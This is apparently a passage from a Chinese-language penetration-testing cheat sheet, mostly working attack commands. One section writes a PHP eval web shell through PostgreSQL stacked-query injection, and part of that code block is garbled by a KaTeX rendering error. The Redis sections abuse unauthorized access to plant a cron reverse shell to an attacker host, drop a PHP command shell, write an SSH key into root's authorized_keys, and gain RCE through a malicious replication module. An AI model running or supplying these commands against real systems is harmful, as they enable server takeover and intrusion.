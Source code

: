 https://github.com/sqlmapproject/udfhack/tree/master/linux/64/lib_postgresqludf_sys

#### 2、直接写shell

```mysql
php?id=1;create table shell(shell text not null));//创建一个名为shell的表 里面有名为shell的列 列的类型为text 不允许为空
php?id=1;insert into shell values(KaTeX parse error: Can't use function '$' in math mode at position 13: <?php @eval($̲_POST[cracer]);…); //往shell的表里插入一句话为$<?php@eval(_POST[cracer]php?id=1;copy shell(shell) to ‘/var/www/html/shell.php’;//把shell表里的数据拿出来创建一个文件，要网站的绝对路径 单引号里的为路径
                                  
```



### Redis 

#### 1、未授权访问 反弹shell

```shell
redis-cli -h ipaddress
set x "\n* * * * * bash -i >& /dev/tcp/vps ip/55555 0>&1\n"
config set dir /var/spool/cron/
config set dbfilename root
save
```

#### 写马

```cmd
CONFIG SET dir /var/www/html
CONFIG SET dbfilename shell.php
SET shell "<?php system($_GET['cmd']);?>"
save
```

#### 写密钥

```shell
利用条件：
　　Redis服务使用ROOT账号启动
　　服务器开放了SSH服务，而且允许使用密钥登录，即可远程写入一个公钥，直接登录远程服务器
cd /root/.ssh/
创建密钥
ssh-keygen -t rsa
密钥保存为1.txt文件
(echo -e "\n\n"; cat 1.pub; echo -e "\n\n") > 1.txt
将密钥写入redis的1中
cat /root/.ssh/1.txt | redis-cli -h ipaddress -x set 1

config set dir /root/.ssh/
config set dbfilename authorized_keys
save

#结果
　ssh -i /root/.ssh/id_rsa root@ip
```

#### 主从复制rce

下载：git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand

make进行编译

git clone https://github.com/Ridter/redis-rce.git
　　python redis-rce.py -r 目标ip-p 目标端口 -L 本地ip -f 恶意.so